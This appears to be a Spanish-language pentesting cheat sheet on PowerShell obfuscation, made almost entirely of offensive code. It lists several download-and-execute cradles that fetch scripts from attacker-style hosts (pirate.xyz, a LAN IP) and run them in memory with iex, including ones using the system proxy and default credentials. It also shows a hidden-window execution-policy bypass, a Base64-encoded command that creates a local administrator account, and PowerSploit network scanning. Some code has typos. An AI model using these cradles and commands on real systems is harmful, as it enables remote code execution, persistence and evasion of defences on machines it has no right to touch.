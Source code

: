 ```yaml
---
title: 'Powershell Obfuscation'
description: ''
pubDate: 'May 12 2023'
heroImage: '/asd.png'
slug: 'powershell/obfuscation'
---
```


```powershell
# executa y descarga, el metodo DownloadString ejecutara nuestro script remoto en el proceso de la memoria del powershell
iex (New-Object Net.Webclient).DownloadString("http://192.168.0.17/script.ps1")
# igual q, logo.gif igual ejecuta como ps1:
$downloader = New-Object System.Net.WebClient
$downloader.Headers.Add("user-agent", "Mozilla/5.0 (windwos ....)")
$payload = "http://goo.com/logo.gif"
$command = $downloader.DownloadString($payload)
Invoke-Expression $command
#same as "iex $command"

# Ruidoso y no recomendado
$downloader = New-Object System.Net.WebClient
$payload = "http://pirate.xyz/barbie.ps1"
$local_file = "C:\programdata\barbie.ps1"
$downloader.DownloadFile($payload, $local_file)
# podemos ejecutar así
& $loca_file

# system proxy y credenciales por defecto
$downloader = New-Object System.Net.WebClient
$payload = "http://pirate.xyz/script.ps1"
$cmd = $downloader.DownloadFile($payload)
$proxy = [Net.WebRequest]::GetSystemWebProxy()
$proxy.Credentials = [Net.CredentialCache]::DefaultCredentials
$downloader.Proxy = $proxy
iex $cmd

# Ejecutar en la memoria y configurado como proxy
$req = [System.Net.WebRequest]::Create("http://pirate.xyz/script.ps1")
$res = $req.GetResponse()
###
$proxy = [Net.WebRequest]::GetSystemWebProxy()
$proxy.Credentials = [Net.CredentialsCache]::DefaultCredentials
$req.Proxy = $proxy
iex ([System.IO.StreamReader]($res.GetResponseStream())).ReadToEnd()

# System.Xml.XmlDocument
# <?xml version="1.0"?>
# <command>
# <a>
# <execute>Get-Process</execute>
# </a>
# </command>
$xmldoc = New-Object System.Xml.XmlDocument
$xmldoc.Load("http://pirate.xyz/file.xml")
iex $xmldoc.command.a.execute

# COM objects
$downloader = New-Object -ComObject Msxml2.XMLHTTP
$downloader.open("GET", "http://pirate.xyz/script.ps1", $false)
$downloader.send()
iex $downloader.responseText

# WinHttp.WinHttpRequest.5.1
$downloader = New-Object -ComObject WinHttp.WinHttpRequest.5.1
$downloader.open("GET", "http://pirate.xyz/script.ps1", $false)
$downloader.send()
iex $downloader.responseText

## IMPORTANT
powershell.exe -ExecutionPolicy bypass -
Window hidden .\download.ps1
```

(herramienta de creación de cunas de descarga ofuscadas )[https://github.com/danielbohannon/Invoke-CradleCrafter]

### Invoke-Obfuscation

```powershell

SET SCRIPTBLOCK iex (New-Object Net.Webclient).downloadstring("http://192.168.0.17:8080/script.ps1")

# from cmd

powershell.exe -Command "obfuscate"

# add new user admin1 al grupo administrador

$command = `net user admin1 "password9001" /ADD;net localgroup administrators admin1 /add`
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

Write-Host $encodedCommand asihdaouishdpuioawhd auoisdhauispdhauishd

powershell.exe -encodedcommand asihdaouishdpuioawhdauoisdhauispdhauishd
```

### PowerSploit - Get-HttpStatus

```powershell
Get-HttpStatus -Target 192.168.0.17 -Path dictionary.txt -Port 80 | ? {$_.Status -match "ok"}
```

### PowerSploit - Posh-SecMod

```powershell
Invoke-ARPScan -CIDR 192.168.0.0/24

Get-Command -Module Posh-SecMod

```

[Get-HttpStatus](https://powersploit.readthedocs.io/en/latest/Recon/Get-HttpStatus/)
[Invoke-Portscan.ps1](https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Portscan/)
[Posh-SecMod](https://github.com/darkoperator/Posh-SecMod)
[PowerSploit](https://github.com/PowerShellMafia/PowerSploit/)
